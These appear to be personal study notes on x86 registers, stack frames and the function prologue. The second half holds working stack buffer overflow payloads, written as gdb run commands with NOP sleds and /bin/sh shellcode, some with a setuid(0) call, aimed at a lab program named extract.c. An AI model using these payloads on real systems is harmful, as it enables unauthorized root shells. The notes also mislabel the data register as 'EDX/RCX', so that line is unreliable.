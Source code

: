 Quickly accessible locations available to a cpu, consist of a small amount of fast storage.

[article](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)

# notation

- if preceded with e (stands for extended), it's a 32 bit register
- if preceded with r (idk what is stands for) it's a 64 bit register

# General registers

- AX register (eax in 32 rax in 64 bits) : Accumulator, used for i/o and arithmetic ops
- EBX/RBX : optionally used a base pointer
- ECX/RCX : counter register, used for loop counters and for shifts (whatever it means)
- EDX/RCX : Data register, I/O and in arithmetic operations for multiply and divide operations involving large values

# Pointer registers

- EIP/RIP : instruction pointer, offset address of the next instruction
- ESP/RSP : Points to the top of the stack
- EBP/RBP : Stack base pointer aka frame pointer.
  - s stack frame : EBP points to its base (its beginning in the high memory address), and ESP points to its top,

## Assembly function prologue

- push the current value of ebp into the stack (it contains the base pointer of the previous stack frame)
- mov the value of esp into ebp, thus creating a new stack frame.

```s
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 # <---- 3. Moves ESP to the top, by subbing the number of bytes required for local vars
```

- for getting out of a stack frame, esp is replaced with the current ebp, and ebp is popped off the stack  
  [stack overflow answer](https://stackoverflow.com/a/3700219/14500132)

- anatomy of a stack frame
  - ESP | Buffer space (where local vars are stored) | EBP | EIP
- esp at the top, and eip at the bottom of the stack

```
  run $(python -c 'print ((520-95)*"\x90" + "\xda\xc2\xb8\xee\x8a\x6d\x66\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\x31\x42\x17\x83\xc2\x04\x03\xac\x99\x8f\x93\x01\x45\xb8\xbf\x32\x3a\x14\x2a\xb6\x35\x7b\x1a\xd0\x88\xfc\xc8\x45\xa3\xc2\x23\xf5\x8a\x45\x45\x9d\x73\xb6\xb5\x5c\xe4\xb4\xb5\x24\x9d\x31\x54\x68\x3b\x12\xc6\xdb\x77\x91\x61\x3a\xba\x16\x23\xd4\x2b\x38\xb7\x4c\xdc\x69\x18\xee\x75\xff\x85\xbc\xd6\x76\xa8\xf0\xd2\x45\xab"+"\xd6\xd8\xff\xff" ) ' )


  run $(python -c 'print ((520-95)*"\x90" + "\xdb\xc8\xbe\xd6\x75\x07\xe6\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x31\x70\x17\x83\xc0\x04\x03\xa6\x66\xe5\x13\x77\x52\x1e\x38\x24\x27\xb2\xd5\xc8\x2e\xd5\x9a\xaa\xfd\x96\x48\x6b\x4e\xa9\xa3\x0b\xe7\xaf\xc2\x63\x87\x4f\x35\x72\x1f\x52\x35\x0e\xb6\xdb\xd4\x5e\x2e\x8c\x47\xcd\x1c\x2f\xe1\x10\xaf\xb0\xa3\xba\x5e\x9e\x30\x52\xf7\xcf\x99\xc0\x6e\x99\x05\x56\x22\x10\x28\xe6\xcf\xef\x2b"+"\x04\xd7\xff\xff" ) ' )


  run $(python -c 'print ((520-25)*"\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"\xe4\xd6\xff\xff" ) ' )

Payload for extract.c

 run $(python -c 'print ((524-25)*"\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"\x50\xd7\xff\xff" )')


\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

 run $(python -c 'print ((524-53)*"\x90" + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" +"\x50\xd7\xff\xff" )')

```
